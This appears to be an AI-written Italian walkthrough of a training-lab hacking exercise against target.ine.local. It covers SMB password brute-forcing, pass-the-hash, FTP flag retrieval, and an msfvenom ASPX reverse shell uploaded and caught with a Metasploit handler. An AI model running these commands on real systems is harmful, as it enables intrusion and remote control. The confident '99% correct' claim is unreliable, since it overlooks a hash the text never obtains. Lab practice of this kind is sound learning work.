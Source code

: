 Ecco una mini writeup in Markdown, con spiegazioni semplici passo-passo. Ho ricontrollato i comandi e le credenziali: tutto è corretto al 99%.


## Exploitation 2: Mini Writeup

### 1. Scoprire credenziali Windows tramite SMB
Usiamo **crackmapexec** per effettuare un brute-force SMB su `target.ine.local`, con l’utente `tom` e la wordlist `/usr/share/wordlists/metasploit/unix_passwords.txt`:
```bash
crackmapexec smb target.ine.local -u tom -p /usr/share/wordlists/metasploit/unix_passwords.txt
````

> **Risultato:**
> `tom:felipe`

---

### 2. Accedere a uno share SMB con l’utente `tom`

Con le credenziali appena trovate, montiamo o navighiamo sullo share `HRDocuments`:

```bash
smbclient //target.ine.local/HRDocuments -U tom
```

> **Cosa succede:**
> Entriamo nello share e possiamo leggere i documenti di risorse umane.

---

### 3. Pass-the-Hash per utente `nancy`

Ora vogliamo autenticarsi come `nancy` usando l’hash appena recuperato (pass-the-hash):

* **Hash di `nancy`:** `b3ddea4b4b957f3e037af75cfe5317ad`
* Nel **Metasploit Framework**:

  ```bash
  msfconsole
  ```

  Poi:

  ```
  use auxiliary/scanner/smb/smb_login
  set RHOSTS target.ine.local
  set SMBUser nancy
  set SMBPass b3ddea4b4b957f3e037af75cfe5317ad
  run
  ```

> **Obiettivo:** Verificare l’accesso SMB con hash di `nancy`.

---

### 4. Credenziali aggiuntive (Hint)

Potrebbero servirti **anche** le credenziali:

```
david:omnitrix_9901
```

Usale per altri servizi, in particolare FTP.

---

### 5. Recupero della Flag 3 via FTP

Con `david:omnitrix_9901` accedi al servizio FTP:

```bash
ftp target.ine.local
# login: david
# pass: omnitrix_9901
```

Naviga fino alla directory dove si trova la **flag3**, quindi:

```bash
get flag3.txt
```

---

### 6. Preparazione e upload del payload ASPX per la Flag 4

Genera una **reverse shell** in formato `.aspx` con **msfvenom**:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=<TUO_IP> LPORT=1234 \
  -f aspx -o payload.aspx
```

Poi, dalla sessione FTP di prima:

```bash
put payload.aspx
```

> **Attenzione:** Assicurati che la cartella target supporti file `.aspx`.

---

### 7. Avviare il listener in Metasploit

Torna in **msfconsole** e configura il *multi/handler*:

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <TUO_IP>
set LPORT 1234
run
```

Quando visiti il file ASPX sul server (es. via browser):

```
http://target.ine.local/path/to/payload.aspx
```

otterrai la sessione Meterpreter, e potrai recuperare la **flag4**.

---

## Conclusione

1. **Credenziali SMB** scoperte con crackmapexec.
2. **Accesso share** HRDocuments con `tom:felipe`.
3. **Pass-the-hash** per `nancy`.
4. **Flag3** via FTP con `david:omnitrix_9901`.
5. **Payload ASPX** caricato e listener Metasploit per la **flag4**.
